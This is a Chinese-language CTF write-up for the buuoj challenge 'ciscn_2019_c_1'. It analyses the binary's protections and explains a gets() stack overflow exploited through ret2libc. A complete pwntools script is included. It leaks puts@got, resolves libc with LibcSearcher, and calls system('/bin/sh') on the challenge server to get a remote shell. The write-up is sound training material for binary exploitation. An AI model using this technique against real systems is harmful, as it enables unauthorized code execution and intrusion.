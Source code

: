# ciscn 2019 c 1 

From buuoj.

## 文件分析

下载`ciscn_2019_c_1`, NX on, PIE off, RELRO partial  
ghidra分析为64位程序

## 解题思路

函数`encrypt()`中存在`gets`，考虑**栈溢出**攻击  
.text段中不存在后门函数，并且有nx，考虑ret2libc

**记录首次学会**

1. 获取`pop rdi; ret;`和puts@plt地址
2. 栈溢出打印puts@got
3. 根据puts@got获知靶机使用的libc
4. 将**puts@got**偏移到system@got & shstr@got
5. 回到`gets`函数，重新执行溢出拿到sh

## 重大注意

如果一个字节为**0x0a**，**会被截断**！（换行）

## EXPLOIT

```python
from pwn import *
import LibcSearcher
sh = remote('node4.buuoj.cn', 29693)
elf = ELF('ciscn_2019_c_1')

putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x0400c83
vulnAddr = 0x004009a0
retAddr = 0x0040099f # 不能带0x0a!!!

sh.sendline(b'1') # 选择1.Encrypt (Vulnerable Function)
sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))

sh.recvuntil(b'\nI') # skip
sh.recvuntil(b'\nI') # skip
data = sh.recvuntil(b'\nI') 
putsGotAddr = u64(data[-8:-2] + b'\0\0')

libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcbase = putsGotAddr - libc.dump('puts')
systemAddr = libcbase + libc.dump('system')
shstrAddr = libcbase + libc.dump('str_bin_sh')

sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
